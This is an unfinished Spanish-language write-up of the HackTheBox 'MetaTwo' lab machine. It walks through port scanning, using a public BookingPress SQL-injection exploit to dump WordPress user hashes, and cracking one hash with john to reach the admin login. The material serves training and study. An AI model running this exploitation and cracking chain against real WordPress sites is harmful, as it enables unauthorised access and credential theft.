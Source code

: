 ```yaml
---
title: MetaTwo WriteUp
author: H4ckerLite 
date: 2023-03-21 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [linux, hackthebox, writeup, easy, wordpress, sql injection, virtual hosting]
image:
  path: ../../assets/img/commons/metatwo-writeup/MetaTwo.png 
  alt: Inject WriteUp
pin: true
---
```


Hoy toca compremeter la máquina [MetaTwo](https://app.hackthebox.com/machines/metatwo) de HackTheBox. Nos enfretaremos con una página que cuenta con una vulneravilidad de de un plugin de  `Word Press`, usando dicha vulnerabilidad podemos dumpear la base de datos y obtener el Usuario y la contraseña del usuario de **Word Press**,


## Enumeración

### Identificando el OS
Enviando trazas **ICMP**  `(Internet Control Message Protocol)` y usando el **TTL**`(Time to Live)` podemos identificar el OS.

```bash
❯ ping -c1 10.10.11.186
PING 10.10.11.186 (10.10.11.186) 56(84) bytes of data.
64 bytes from 10.10.11.186: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.186 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.106/156.106/156.106/0.000 ms
```

### NMAP

Si realizamos un escaneo de puertos, encontramos:

```bash
❯ nmap 10.10.11.186
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-24 12:53 -04
Nmap scan report for 10.10.11.186
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.43 seconds
```
### Analizando la Web

Si intentamos acceder a la web, nos redirige, para solucionar esto hacemos:
```bash
echo '10.10.11.186   metapress.htb' | tee -a /etc/hosts
```
Cone esto arreglamos el problema de virtual hosting.

![Web ]({{ 'assets/img/commons/metatwo-writeup/1.png' | relative_url }}){: .center-image }
_Web_

si ingresamos a la direcciñon que nos [muestra](http://metapress.htb/events) vemos esto:

![Events ]({{ 'assets/img/commons/metatwo-writeup/2.png' | relative_url }}){: .center-image }
_Events_

Si miramos el código fuente vemos que usa el plugin `booking-press v1.0.10` si buscamos un exploit para esa versión, encontramos [este](https://github.com/destr4ct/CVE-2022-0739) y este [otro](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357).


Creamos un evnto y en todos los campos de texto colocamos `bookingpress_form`.

![Events ]({{ 'assets/img/commons/metatwo-writeup/4.png' | relative_url }}){: .center-image }
_BookingPress_

Ahora vemos el código fuente y buscamos por `once` y copiamos ese pin. Con el exploit que les compartí podemos dumpear la base de datos.

```bash
❯ python3 exploit.py -u http://metapress.htb -n 30594111b0
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|

```
Ahora copiamos el hash y lo intentamos crakear con john.

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)
1g 0:00:00:03 DONE (2023-03-24 14:36) 0.2617g/s 28950p/s 28950c/s 28950C/s poochini..music69
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```
Podemos autenticarnos con Word Press.


## Comprometiendo la máquina

Accedemos al panel de [WordPress](http://metapress.htb/wp-admin).

![Events ]({{ 'assets/img/commons/metatwo-writeup/5.png' | relative_url }}){: .center-image }
_WP Login_




Más tarde continuo.........
